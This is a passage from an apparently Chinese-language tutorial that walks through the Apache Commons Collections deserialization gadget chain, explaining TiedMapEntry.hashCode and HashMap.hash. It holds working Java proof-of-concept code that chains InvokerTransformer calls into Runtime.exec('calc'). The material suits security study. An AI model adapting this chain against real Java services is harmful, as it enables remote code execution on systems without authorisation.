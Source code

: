 首先通过getValue()方法获取对象的值并赋给value变量，然后使用异或操作符 ^ 计算对象的哈希码。该方法的计算方式是将键（Key）的哈希码和值（Value）的哈希码异或在一起。

所以把上面的`tiedmap.getValue();`改为`tiedmap.hashCode();`就行了

```java
Transformer[] transformers = new Transformer[]{
  new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
  new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
  new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap innermap = new HashMap();
LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);
TiedMapEntry tiedmap = new TiedMapEntry(map,Runtime.class);

//就改了这里
tiedmap.hashCode();
```



* 第八层`java.util.HashMap.hash()`

查看`HashMap.hash()` 

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

该方法会判断传入的key是否为null，如果为null则直接返回0。如果key不为null，则通过key.hashCode()方法获取该Key的哈希码，并将结果存储在变量h中。然后将h和右移16位后的h按位异或运算( ^ )，得到最终的哈希码值并返回。

 我们不需要它的返回结果，只要他执行hashCode()就行

因为hash方法是HashMap类中的私有静态方法，无法从外部程序包中对其进行访问，可以用反射来调用它

```java
Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap innermap = new HashMap();
LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);
TiedMapEntry tiedmap = new TiedMapEntry(map,Runtime.class);
        
//反射调用
Class<?> hashMapClass = HashMap.class;
Method hashMethod = hashMapClass.getDeclaredMethod("hash", Object.class);
hashMethod.setAccessible(true);//设置访问权限
hashMethod.invoke(null, tiedmap);
```
